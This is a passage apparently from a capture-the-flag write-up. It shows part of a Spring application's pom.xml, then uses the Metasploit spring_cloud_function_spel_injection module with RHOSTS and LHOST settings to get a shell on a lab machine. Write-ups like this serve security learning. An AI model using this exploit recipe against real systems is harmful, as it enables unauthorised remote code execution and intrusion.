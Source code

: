 ```xml
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

## Get a shell

If we google the items from the pom.xl we can see that it seems to be vulnerable to spring4shell, after a try of a few different exploit the one that workd was this one on Metasploit `multi/http/spring_cloud_function_spel_injection` 

- `set RHOSTS 10.10.11.204`
- `set LHOST tun0`
- Then we just need to `run`
- And we get a shell as frank  

![Metasploit](../.res/2023-04-15-20-42-28.png)  
